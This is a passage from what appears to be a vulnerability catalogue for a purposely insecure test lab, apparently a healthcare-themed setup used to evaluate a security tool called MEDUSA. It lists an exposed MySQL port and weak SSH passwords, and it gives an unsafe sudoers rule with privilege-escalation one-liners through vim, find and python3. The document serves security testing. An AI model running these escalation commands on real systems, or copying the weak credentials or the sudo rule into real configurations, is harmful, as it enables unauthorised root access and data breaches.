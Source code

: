 **Impact:** Complete database compromise

---

#### 3.2 Exposed MySQL Port
**Description:** MySQL port 3306 is exposed to the host network

**Exploitation:**
```bash
# Remote connection from any network location
mysql -h <target-ip> -P 3306 -u root -padmin123
```

**MEDUSA Test Cases:**
- Network scanning to discover MySQL
- Remote connection attempts
- Brute force attack from remote location

**Impact:** Remote database access, data breach

---

### 4. SSH Server (`ssh-server`)

#### 4.1 Weak Credentials
**Users and Passwords:**
- root: `password123`
- admin: `admin2024`
- doctor: `Doctor2024!`
- nurse: `Nurse123`

**Exploitation:**
```bash
ssh admin@localhost -p 2222
# Password: admin2024
```

**MEDUSA Test Cases:**
- Brute force SSH credentials
- Password spraying attacks
- Credential stuffing from breached databases

**Impact:** Remote system access

---

#### 4.2 Sudo Misconfiguration
**Location:** `/etc/sudoers`

**Vulnerable Configuration:**
```
admin ALL=(ALL) NOPASSWD: /usr/bin/vim, /usr/bin/find, /usr/bin/python3
```

**Exploitation:**
```bash
# Privilege escalation via vim
sudo vim -c ':!/bin/bash'

# Or via find
sudo find /etc -exec /bin/bash \;

# Or via python
sudo python3 -c 'import os; os.system("/bin/bash")'
```
